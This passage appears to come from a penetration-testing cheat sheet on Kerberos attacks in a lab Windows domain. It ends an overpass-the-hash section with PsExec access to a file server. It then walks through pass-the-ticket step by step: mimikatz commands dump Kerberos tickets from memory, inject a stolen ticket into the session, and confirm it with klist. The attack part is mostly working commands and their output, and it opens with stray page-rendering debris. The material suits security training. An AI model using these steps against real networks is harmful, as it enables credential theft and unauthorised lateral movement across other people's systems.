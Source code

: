 {% endcode %}
{% endtab %}

{% tab title="4. Exploit" %}
Use any Kerberbos-based authentication utility directly, such as `PsExec`.

```powershell
.\PsExec.exe \\files04 cmd
...
C:\Windows\system32>whoami
corp\jen

C:\Windows\system32>hostname
FILES04
```
{% endtab %}
{% endtabs %}

### Pass-the-Ticket

For more info about this attack, see [here](../lateral-movement/pass-the-ticket.md).

{% tabs %}
{% tab title="1. Export Tickets" %}
```powershell
privilege::debug
sekurlsa::tickets /export
...
Saved to file [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```
{% endtab %}

{% tab title="2. Inject Ticket" %}
Find the relevant ticket.

{% code overflow="wrap" %}
```powershell
> dir *.kirbi
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/14/2022   6:24 AM           1561 [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
...
```
{% endcode %}

Inject it into the current session.

```powershell
mimikatz # kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```
{% endtab %}

{% tab title="3. Exploit" %}
```powershell
> klist
...
Cached Tickets: (1)

#0>     Client: dave @ CORP.COM
        Server: cifs/web04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40810000 -> forwardable renewable name_canonicalize
        Start Time: 9/14/2022 5:31:32 (local)
        End Time:   9/14/2022 15:31:13 (local)
        Renew Time: 9/21/2022 5:31:13 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
        
```